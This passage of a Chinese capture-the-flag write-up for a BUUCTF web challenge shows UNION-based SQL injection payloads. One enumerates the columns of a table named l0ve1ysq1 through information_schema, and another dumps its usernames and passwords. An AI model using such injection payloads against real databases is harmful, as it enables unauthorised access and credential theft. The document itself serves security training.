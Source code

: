 <img src="/images/buuctf-web/image-20221014180215987-166704781973420.png" alt="image-20221014180215987" style="zoom:67%;" />

发现有两个表,名字分别为:`geekuser`和`l0ve1ysq1` 显然第二个比较可疑,爆一下列名:

```
1' union select 1,2,group_concat(COLUMN_NAME) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1' limit 0,1#
```

<img src="/images/buuctf-web/image-20221014180511642-166704781973421.png" alt="image-20221014180511642" style="zoom:67%;" />



```
1' union select 1,group_concat(username),group_concat(password) from l0ve1ysq1 limit 0,1#
```

<img src="/images/buuctf-web/image-20221014180852303-166704781973422.png" alt="image-20221014180852303" style="zoom:67%;" />

